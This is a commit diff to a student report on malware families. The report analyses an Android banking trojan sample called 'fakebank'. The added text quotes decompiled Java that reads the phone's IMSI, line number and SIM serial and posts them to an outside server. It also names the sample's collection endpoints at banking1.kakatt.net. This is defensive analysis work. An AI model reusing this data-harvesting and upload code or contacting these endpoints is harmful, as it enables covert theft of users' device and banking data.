

Before and after one commit to Mugna46/DSS_project, a Typst document (doc/report_DSS.typ): part of page 6 of 6 before the commit and two parts of pages 6 and 7 of 11 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. The pictures show the PDF file doc/report_DSS.pdf that the author committed with the source.

Commit message:
feat(report): fakebank 4a sample finish

````diff
--- a/doc/report_DSS.typ
+++ b/doc/report_DSS.typ
@@ -151,0 +160,54 @@ Anyway we can see, using tools like `curl` or `nslookup`, that the domain is not
+#label("activities_fakebank")
+#v(0.5em)
+As we can see in @activities_fakebank, the Malware performs different activities at the app startup.
+#v(0.5em)
+#linebreak()
+*BankSplashActivity*
+#linebreak()
+#v(0.5em)
+The activity is a fake splash screen that is shown to the user when the application is launched, in seconds it collect:
+#v(0.5em)
+- Subscriber ID (IMSI)
+- Phone number
+- Sim Serial number
+```java
+void regPhone() {
+    TelephonyManager tm = (TelephonyManager) getSystemService("phone");
+    String sim_no = tm.getSubscriberId();
+    String getLine1Number = tm.getLine1Number();
+    if (getLine1Number == null || getLine1Number.length() < 11) {
+        getLine1Number = tm.getSimSerialNumber();
+    }
+    ParamsInfo.Line1Number = getLine1Number;
+    ParamsInfo.sim_no = sim_no;
+    params = new ArrayList();
+    params.add(new BasicNameValuePair("mobile_no", getLine1Number));
+    Date currentTime = new Date();
+    SimpleDateFormat formatter = new SimpleDateFormat("yyyy-MM-dd");
+```
+#v(0.5em)
+Sends all the information to a remote server, starting after 3 seconds the next activity.
+#v(0.5em)
+```java
+String insert_url = "http://banking1.kakatt.net:9998/send_sim_no.php";
+public void run() {
+    HttpClient httpclient = new DefaultHttpClient();
+    HttpPost httppost = new HttpPost(BankSplashActivity.this.insert_url);
+    try {
+        httppost.setEntity(new UrlEncodedFormEntity(BankSplashActivity.params, "EUC-KR"));
+        Log.d("\thttppost.setEntity(new UrlEncodedFormEntity(params));", "gone");
+//...
+Intent i = new Intent();
+i.setClass(BankSplashActivity.this, BankSplashNext.class);
+```
+#v(0.5em)
+#linebreak()
+*BankSplashNext*
+#linebreak()
+#v(0.5em)
+This activity just create a new splash screen and then starts the `BankPreActivity` after 3 seconds.
+
+#v(0.5em)
+#linebreak()
+*BankPreActivity*
+#linebreak()
@@ -151,0 +218 @@ Anyway we can see, using tools like `curl` or `nslookup`, that the domain is not
+#linebreak()
@@ -152,7 +273,10 @@ Anyway we can see, using tools like `curl` or `nslookup`, that the domain is not
+String send_bank_url = "http://banking1.kakatt.net:9998/send_bank.php";
+JSONObject json = BankEndActivity.this.jsonParser.makeHttpRequest(BankEndActivity.this.send_bank_url, "POST", BankEndActivity.this.params);
+
+```
+Then it sends all the information to a *remote server* (`http://banking1.kakatt.net:9998/send_bank.php`).
+
 #pagebreak()
-
-
-
 
 = RansomLoc family
 
````
Also changed, not shown: doc/frontpage.typ (+1 -1 lines), doc/img/marchio_unipi_black.svg (renamed from doc/marchio_unipi_black.svg), doc/report_DSS.pdf, doc/report_DSS.typ (72 more changed lines).
